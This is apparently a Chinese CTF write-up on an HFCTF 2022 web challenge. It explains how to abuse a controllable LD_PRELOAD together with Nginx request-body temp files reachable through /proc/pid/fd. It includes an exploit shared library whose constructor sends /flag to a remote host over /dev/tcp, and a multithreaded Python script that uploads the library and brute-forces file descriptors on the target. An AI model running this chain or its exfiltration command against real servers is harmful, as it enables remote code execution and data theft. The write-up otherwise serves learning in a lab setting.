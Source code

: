 [博客园wp](https://www.cnblogs.com/h0cksr/p/16189739.html) & [先知社区wp](https://xz.aliyun.com/t/11073)

仅仅能控制环境变量，参考p神的文章，本题是在可控环境变量的条件下执行sh -c "echo hfctf2022"，但是本题和p神的环境不一样。

### Nginx临时文件
~~Nginx用于反向代理时，从后端web应用接受响应并缓存到本地，然后发往客户端。响应较小时缓存到内存，如果响应过大则或发往客户端速度太慢导致内存缓冲区满，则会将一部分缓冲区内容写入临时文件中，腾出缓冲区部分空间。[source code分析](https://blog.csdn.net/kai_ding/article/details/21297101)~~(查错了，不是这个知识点)

Nginx会读取客户端请求正文(body)，有一个的缓冲区用于存储正文。如果请求正文大于缓冲区，则整个正文或仅其部分将写入临时文件，默认情况下缓冲区大小等于两个内存页。

贴一处抄来的Nginx代码：
```
ngx_fd_t
ngx_open_tempfile(u_char *name, ngx_uint_t persistent, ngx_uint_t access)
{
    ngx_fd_t  fd;

    fd = open((const char *) name, O_CREAT|O_EXCL|O_RDWR,
              access ? access : 0600);

    if (fd != -1 && !persistent) {
        (void) unlink((const char *) name);
    }

    return fd;
}
```

划重点，刚上过os课现在os的知识就来了。unlink是让文件硬链接数-1，减到0并且没有被进程open则会删除文件。如果open之后close之前执行unlink让硬链接数减到了0，那么文件不会被立刻删除，通过fd依旧可以正常操作，在close之后才会被删除。

那么此时文件在哪里呢？测试一下。安装VMware Player和Ubuntu镜像，然后gcc编译以下代码：
```
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <error.h>
#include <unistd.h>

int main() {
    puts("[+] test for open/unlink/write [+]\n");
    int fd = open("test.txt", O_CREAT|O_EXCL|O_RDWR, 0600);
    printf("open file with fd %d,try unlink\n",fd);

    unlink("test.txt");
    printf("unlink file, try write content\n");
    if(write(fd, "<?php phpinfo();?>", 19) != 19)
    {
        printf("write file error!\n");
    }

    char buffer[0x10] = {0};
    lseek(fd, 0,SEEK_SET);
    int size = read(fd, buffer , 19);
    printf("read size is %d\n",size);
    printf("read buffer is %s\n",buffer);

    puts("stopped here, input any char to execute close(): ");
    getchar();
    close(fd);
    return 0;
}
```
当目录下没有test.txt时，测试结果如图，甚至可以直接cat 3读出内容：
![nil](https://github.com/local-h0st/CTF/blob/30ede03357edb15579ffb06cb3adb9d341bf3576/writeups/pics/test_unlink_01.png)
直接访问路径行吗？


如果预先存在test.txt则不会存在/proc/pid/fd/3这个软链接，且a.out本身输出buff为空，如图：
![nil](https://github.com/local-h0st/CTF/blob/main/writeups/pics/test_unlink_02.png)
此时在getchar挡住，close未执行的情况下，目录下我自己创建的test.txt就已经消失不见了。

### LD_PRELOAD
LD_PRELOAD在进程启动前设置。\_\_attribute__是一个编译属性，GNU C特色之一，其中__attribute__((constructor))确保此函数在main函数之前被调用。贴个exp：
```
// hacklib.c
#include <stdlib.h>
#include <string.h>
__attribute__ ((constructor)) void call ()
{
    unsetenv("LD_PRELOAD");
    char str[65536];
    system("bash -c 'cat /flag' > /dev/tcp/ip/port");
    system("cat /flag > /var/www/html/flag");
}
```
gcc hacklib.c -shared -fPIC -o hacklib.so -ldl，-ldl不加也行，最终编译得到hacklib.so文件。

当我们访问php，传入参数为LD_PRELOAD=/proc/pid/fd/后，当前php脚本先会setenv，然后去执行system函数。从p神的文章中我们可以看到，system函数最终是去执行sh -c "xxx"，也就是启动一个sh进程去执行命令，获得其返回结果。由于sh是由当前php脚本开的，因此LD_PRELOAD的环境变量能被sh继承下来。所以在开sh前，hacklib.so内的call()函数就会被先执行。

### 贴一份完整的Python脚本
```
import threading, requests, time

URL = f'http://94398b21-7016-4eb8-a479-93a5b97e536f.node4.buuoj.cn:81/'
large_body = open("hacklib.so", "rb").read() + (16 * 1024 * 'A').encode()

done = False
flag = ""


# upload a big client body to force nginx to create a /var/lib/nginx/body/$X
def uploader():
    print('[+] starting uploader')
    while not done:
        requests.post(URL, data=large_body)


# 16 threads keep on sending large body.
for _ in range(1):
    threading.Thread(target=uploader).start()


def try_get_flag():
    global done, flag
    r = requests.get(URL + "flag")
    print("trying to get flag")
    if r.status_code == 200:
        if "{" in r.text:
            done = True
            flag = r.text
            print("flag:", flag)
            return
    print("get flag failed")


def bruter(pid):
    print(f'[+] brute loop restarted: {pid} \n')
    for fd in range(4, 100):
        f = f'/proc/{pid}/fd/{fd}'
        # print(f)
        try:
            r = requests.get(URL, params={
                'env': 'LD_PRELOAD=' + f,
            })
        except Exception:
            pass
    try_get_flag()


def bruser_group(start_pid, count):
    while not done:
        current_pid = start_pid
        while count > 0:
            bruter(current_pid)
            count -= 1
            current_pid += 1


# if test locally, can use pid; else need to brute.
# nginx_workers = [ 266, 268, 32831, 33666, 9]
for i in range(2, 20):
    threading.Thread(target=bruser_group, args=(i * 50, 50)).start()
```
还是反弹shell出来的，，一顿操作虚拟机Ubuntu图形界面给我搞没了，，

不过最终还是没扫出来，buu的环境动不动就G

anyway学到了很多
